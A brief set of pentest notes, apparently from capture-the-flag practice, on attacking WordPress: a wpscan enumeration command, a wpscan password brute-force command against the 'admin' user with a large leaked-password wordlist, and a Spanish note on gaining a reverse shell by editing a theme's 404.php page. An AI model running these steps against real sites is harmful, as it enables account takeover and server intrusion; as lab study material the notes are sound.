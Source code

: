 # Wordpres

- wpscan recon
```bash
wpscan --url http://10.10.237.142/wordpress -e u,ap,t
```


- wpscan brute 
```
wpscan --url http://10.10.10.120/wp/wordpress -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt -U admin -t 50
```

- reverse shell modificando un tema


```bash
http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php
```